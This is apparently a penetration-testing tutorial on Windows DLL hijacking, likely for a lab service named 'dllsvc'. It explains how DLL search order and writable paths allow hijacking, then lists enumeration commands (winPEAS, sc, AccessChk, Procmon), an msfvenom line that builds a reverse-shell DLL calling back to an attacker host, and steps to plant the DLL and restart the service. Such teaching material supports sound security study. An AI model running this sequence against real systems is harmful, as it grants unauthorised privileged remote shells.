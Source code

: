 ```yaml
---
legal-banner: true
---
```


### **Introduction**

DLL hijacking is a cyberattack that exploits the way Windows applications search for and load Dynamic Link Libraries (DLLs).  
By manipulating how DLLs are resolved, an attacker can gain elevated privileges or execute arbitrary code.

### **How DLL hijacking works**

1.  Services in Windows load DLLs with the same privileges as the service. If an attacker controls the DLL, their code executes with those privileges.  
2.  **Absolute path vulnerability:** When a service loads a DLL from a writable path, an attacker can replace it with a malicious one to escalate privileges.  
3.  If an application fails to find a required DLL, an attacker can place a malicious DLL in a directory that Windows searches, hijacking execution.  
4.  Windows searches for DLLs in a specific order. Attackers exploit this by placing a malicious DLL in a location searched before the legitimate one.

### **Steps to identify and exploit insecure service executables**

1.  Use **winPEAS** to list non-Microsoft services:  
    `.\winPEASx64.exe quiet servicesinfo`
    
    ![](../../../img/Windows-Environment/127.png)
    
2.  Verify writable directories in the service configuration:  
    `sc qc dllsvc`
    
3.  Check service access permissions with **AccessChk**:  
    `.\accesschk.exe /accepteula -uvqc user dllsvc`
    
4.  Use **Procmon** to monitor DLL activity for the service:  
    `Procmon64.exe`
    
5.  Apply filters to exclude registry and network activity, focusing on DLL-related errors.  
    
6.  Look for failed DLL load attempts, especially in writable directories such as:  
    `C:\Temp`
    
7.  Generate a malicious DLL payload with **msfvenom**:  
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT_NUMBER] -f dll -o hijackme.dll`
    
8.  Place the malicious DLL in the target directory:  
    `move hijackme.dll C:\Temp`
    
9.  Restart the vulnerable service to trigger DLL execution:  
    ```
    net stop dllsvc
    net start dllsvc
    ```